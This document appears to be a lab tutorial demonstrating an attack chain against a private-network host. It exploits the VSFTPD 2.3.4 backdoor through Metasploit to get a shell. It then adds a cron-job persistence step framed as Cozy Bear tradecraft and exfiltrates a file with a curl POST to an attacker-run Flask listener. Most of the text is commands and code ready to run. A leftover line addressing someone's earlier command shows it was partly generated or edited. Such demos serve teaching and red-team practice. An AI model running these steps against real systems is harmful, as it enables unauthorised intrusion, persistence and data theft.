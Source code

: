 ## Metasplot Demo

In this tutorial, we will demonstrate how to use Metasploit to exploit a vulnerable VSFTPD server. The steps outlined below correspond to the commands provided, and we'll go through each one in order.

### 1. Scan the target with nmap:

Before starting the exploit, it's essential to gather information about the target. Use nmap to scan the target IP (192.168.101.54) for open ports and services:

```
nmap 192.168.101.54
```

If the scan results show that port 21 (FTP) is open, you can proceed to the next step.

### 2. Connect to the FTP service using netcat:

Use the following command to connect to the target IP's FTP service and check if it is running a vulnerable version of VSFTPD:

```
nc 192.168.101.54 21
```

If you see a response indicating that VSFTPD 2.3.4 is running, continue to the next step.

### 3. Start Metasploit:

Launch the Metasploit console by running the following command:

```
msfconsole
```

### 4. Search for the VSFTPD exploit:

In the Metasploit console, search for the VSFTPD exploit by running:

```
search vsftp
```

The search results should show the exploit/unix/ftp/vsftpd_234_backdoor module.

### 5. Use the exploit module:

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

### 6. List available payloads:

The command you provided, set payload 0, is incorrect. Instead, use the following command to list available payloads:

```
show payloads
```

Choose a payload from the list, such as cmd/unix/interact.

### 7. Set the payload:

```
set payload cmd/unix/interact
```

### 8. Show and set module options:

Use the following commands to show the module options, set the RHOSTS option, and verify the settings:

```
show options
```
```
set RHOSTS 192.168.101.54
```
```
show options
```

### 9. Run the exploit:

```
exploit
```

If the exploit is successful, you should receive a command shell on the target system.

### 10. Check the user context:

Run the following command to see the user context of the shell:

```
whoami
```

This will show the username of the account that the shell is running under.

### 11. Now we will demonstrate how Cozy Bear employs stealthy persistence techniques to maintain access to compromised systems. We will be focusing on creating a cron job that will execute a benign script at specified intervals or upon system startup.

Step 1: Prepare a benign script
```
cat << EOF > benign_cronjob.sh
#!/bin/bash
echo "Cron job executed at \$(date)" >> /tmp/cronjob.log
EOF
```

Step 2: Make the script executable
```
chmod +x benign_cronjob.sh
```

Step 3: Create a cron job
```
(crontab -l 2>/dev/null; echo "* * * * * $(pwd)/benign_cronjob.sh") | crontab -
```

Step 4: Check the cron job
```
cat /tmp/cronjob.log
```

Or create a new file called create_cronjob.sh and copy the script content into it. Save the file and make it executable using chmod +x create_cronjob.sh.

```
http://raw.githubusercontent.com/jamesvthompson/demo/main/create_cronjob.sh
```
```
chmod +x create_cronjob.sh
```

Run the script with ./create_cronjob.sh. This will create the benign script (benign_cronjob.sh), make it executable, and set up a cron job to run it every minute.

```
sh create_cronjob.sh
```

Monitor the /tmp/cronjob.log file for updates by running cat /tmp/cronjob.log.

```
cat /tmp/cronjob.log
```
### 12. Now we will demonstrate data exfiltration from a compromised Linux system, simulating how Cozy Bear could extract sensitive information after gaining access to a target. 

Data Exfiltration with HTTP POST Request

Set up a listener on the remote machine to receive the file. You can use a simple Python HTTP server for this purpose. Install Flask (pip install flask) and create a Python script called receiver.py:

```
from flask import Flask, request

app = Flask(__name__)

@app.route('/upload', methods=['POST'])
def upload():
    with open('received_data.txt', 'wb') as f:
        f.write(request.data)
    return "Data received and saved", 200

if __name__ == '__main__':
    app.run(host='192.168.101.51', port=8080)
```

This script creates a simple HTTP server that listens for POST requests on the /upload endpoint and saves the received data to a file called received_data.txt.

Run the script on the remote machine:

```
python receiver.py
```

On the target machine, use curl to send an HTTP POST request with the file contents:

```
curl -X POST -H "Content-Type: application/octet-stream" --data-binary "@/tmp/cronjob.log" http://192.168.101.51:8080/upload
```

This will send the file as a binary stream in an HTTP POST request to the remote server, which will save the received data to a file. Note that this method is less secure than using scp, as the data is transmitted unencrypted.

